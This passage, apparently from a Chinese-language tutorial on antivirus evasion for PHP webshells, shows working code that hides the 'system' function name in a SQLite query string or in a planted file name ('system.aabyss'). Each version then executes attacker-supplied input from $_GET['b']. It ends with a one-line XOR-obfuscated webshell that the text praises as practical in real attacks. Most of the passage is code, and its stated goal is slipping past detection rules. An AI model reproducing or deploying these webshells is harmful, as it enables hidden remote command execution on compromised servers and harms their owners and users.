 ### 11.2 读取数据库

可以通过 `file_put_contents` 文件写入函数写入一个 Sqlite 的数据库

```bash
$datatest = "[文件的 base64 编码]";
file_put_contents('./要写入的文件名', base64_decode($datatest));
```

然后通过 PHP 读取数据库内容提取高危函数，从而达到 WebShell 免杀效果

```bash
$path = "数据库文件名"

$db = new PDO("sqlite:" . $path);

$sql_stmt = $db->prepare('select * from test where name="system"');
$sql_stmt->execute();

$f = substr($sql_stmt->queryString, -7, 6);
$f($_GET['b']);
```

### 11.3 读取目录

`FilesystemIterator` 是一个迭代器，可以获取到目标目录下的所有文件信息

```bash
public FilesystemIterator::next ( void ) : void
```

可以尝试使用 `file_put_contents` 写入一个名为 `system.aabyss` 的空文件，然后遍历目录拿到字符串 `system` ，成功 ByPass

```bash
$fi = new FilesystemIterator(dirname(__FILE__));
$f = '';
foreach($fi as $i){
    if (substr($i->__toString(), -6,6)=='aabyss')  //判断后缀名为.aabyss 的文件（其他特殊后缀也行）
        $f = substr($i->__toString(), -13,6);      //从 system.aabyss 提取出 system 高危函数
}
$f($_GET['b']);
```

为什么要写入为 `system.aabyss` 这个文件名呢，因为特殊后缀能让代码快速锁定文件，不至于提取文件名提取到其他文件了

## 12# 多姿势配合免杀

将以上提到的相关姿势，进行多种配合嵌套，实现免杀效果

### 12.1 样例一

刚开始看这个样例我还是挺惊讶的，仔细分析了一波，发现还是挺简单的，但重在思路

这个样例使用了异或 + 变换参数的手法，成功规避了正则匹配式，具有实战意义

```bash
<?=~$_='$<>/'^'{{{{';@${$_}[_](@${$_}[__]);
```
